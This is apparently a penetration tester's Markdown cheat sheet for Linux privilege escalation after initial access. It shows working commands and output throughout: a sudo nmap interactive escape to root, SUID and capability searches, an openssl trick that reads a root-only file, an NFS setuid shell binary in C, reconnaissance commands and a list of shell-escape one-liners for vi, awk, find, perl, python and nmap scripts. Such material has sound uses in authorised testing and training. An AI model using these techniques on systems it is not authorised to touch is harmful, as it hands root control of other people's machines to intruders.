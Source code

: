 # LINUX
This sheet serves as a resource for processes commonly used to escalate privileges of a low-privilege user access during the post-exploitation phase of the penetration test.
## Run the LINUX Privilege Checker Python Script
If Python is installed, **make sure that this script is ran immediately** [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) upon gaining low-level access to a target system. This script will provide quick insight into possible misconfigurations in the target system.

## SUDO Test
Testing for sudo will sometimes reveal a nice surprise. The [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) will tell you exactly which commands/programs are installed with interactive shells that can be escaped from. For instance, some older version of `nmap` had a interactivbe shell. This meant that on certain systems in which a default account has non-authenticated sudo access to it, it could easily lead to a root shell.

```
bash-3.2$ ls -lah /usr/bin/nmap
ls -lah /usr/bin/nmap
-rwxr-xr-x 1 root root 523K Jan  6  2007 /usr/bin/nmap
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ! /bin/bash
! /bin/bash
bash-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
bash-3.2# 
```
So, it is **very important** that all of these are tested with sudo.

## SUID Test
Some of the aforementioned applciations which can be escaped from may have a SUID bit set in the permissions. This means that the effective user ID becomes that of the file's owner. **Again, test all of these** applications, **without sudo** if the attack above is unsuccessful because some of the file permissions may not be set correctly. You'd be surprised.

```
user@target-machine:~$ find / \( -perm -2000 -o -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```
To filter out directories we can use a regexp like so,
```
user@target-machine:~$ find / \( -perm -2000 -o -perm -4000 \) -exec ls -ld {} \; 2>/dev/null | egrep -v '^d`
```
Search for the sticky bit:
```
user@target-machine:~$ find / -perm -u=s -type f 2>/dev/null 
```
## Capabilities
Sometimes files have extra capabilities. To find special capabilities on files, you can try using the `getcap` command on every file in the file system. This can be very slow on actual physical machines - but for VMs and solid state drives, it shouldn't be too bad. You can utilize the `find` command to do this as so,
```
root@attacker-machine:~# find . * 2>/dev/null | xargs -I {} getcap {} 2>/dev/null
/usr/bin/command = cap_dac_read_search+ei
```
Then, we can try to analyze the command as a binary with `strings`, `gdb`, or test it by fuzzing, or execution trial an error.
### OpenSSL
Here is an OpenSSL example of how to utilize Unix Capabilities to read a file that you don't have read access to. If we use `openssl` which has the capabilities set as `=ep`, as shown below,
```
unprivuser@target-system:~$ find . * 2>/dev/null | xargs -I {} getcap {} 2>/dev/null
openssl =ep
```
We can run `./openssl` to encrypt a file for us, then again to decrypt it. This process essentially creates a new file which we have permission to read. Try this,
```
unprivuser@target-system:~$ ./openssl aes-256-cbc -a -salt -in /root/root.txt -out root.txt.enc
enter aes-256-cbc encryption password:
Verifying - enter aes-256-cbc encryption password:
unprivuser@target-system:~$ ls -lah
-rw-rw-r--. 1 unprivuser unprivuser   90 Jan 18 14:28 root.txt.enc
```
Now we decrypt the new file, using the password we chose during the encryption process, and we can read ikt's contents.
```
unprivuser@target-system:~$ openssl aes-256-cbc -d -a -in root.txt.enc -out root.txt
enter aes-256-cbc decryption password:
unprivuser@target-system:~$ cat root.txt
This was a privileged flag file in /root ! How did you read me!?!
unprivuser@target-system:~$
```
## Mounted Filesystems with SetUID
Is there perhaps a mounted NFS share that we can mount remotely? Maybe one with the mount options of setuid 0? 
```
root@attacker-machine:~# mkdir /mnt/nfs
root@attacker-machine:~# mount -t nfs (TARGET IP ADDRESS)/path/to/nfs /mnt/nfs -o nolock
```
Then, compile a binary that spawns a shell, such as,
```
#include<stdlib.h>
#include<stdio.h>
#include<unistd.h>
int main(void){
 setuid(0);
 setgid(0);
 system("/bin/bash");
 return 0;
}
```
Compile it so that the binary is on the mounted NFS share and run it,
```
root@attacker-machine:/mnt/nfs:# gcc execute.c -m32 -o execute
```
## Cron Jobs
Do any cron jobs run that execute scripts or binaries that we have write access to?
```
ls -la /etc/cron*
```
## Network Check
Does the compromised system connect to an internal network or possibly other vulnerable machines? 
```
user@target-machine:~$ ifconfig
```
Does it communicate to other systems or services?
```
user@target-machine:~$ tcpdump -i eth0
```
What systems has it had recent contact with?
```
user@target-machine:~$ arp -a
```
Which DNS server is the compromised system using?
```
user@target-machine:~$ cat /etc/resolv.conf
```
What other hosts/domains does the system have routes to?
```
user@target-machine:~$ cat /etc/hosts
```

## SuDo Escape Tests
Some applications may allow you to run as super-user with `sudo`. If the program has an "escape-back-to-shell" function, it can be leveraged as a priviliege escalation vector. Here is a list of applications which have this feature. Check each one for SUID or `sudo` access from your compromised user. This requires the knownledge of the currently-compromised user account.
### VI/VIM
* :!bash
* :set shell=/bin/bash:shell
### Man, More, Less
* !bash
### Find+AWK
* find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
### AWK
awk 'BEGIN {system("/bin/bash")}'
### NMAP
* nmap --interactive; # then "!sh"
* echo "os.execute('/bin/sh')" > exploit.nse
* sudo nmap --script=exploit.nse
### Perl
* perl -e 'exec "/bin/bash";'
### Python
* python -c "import pty; pty.spawn("/bin/sh")"
### Ruby
* ruby exec "/bin/sh"
### Echo
* echo os.system('/bin/bash')
### FTP
* !/bin/sh
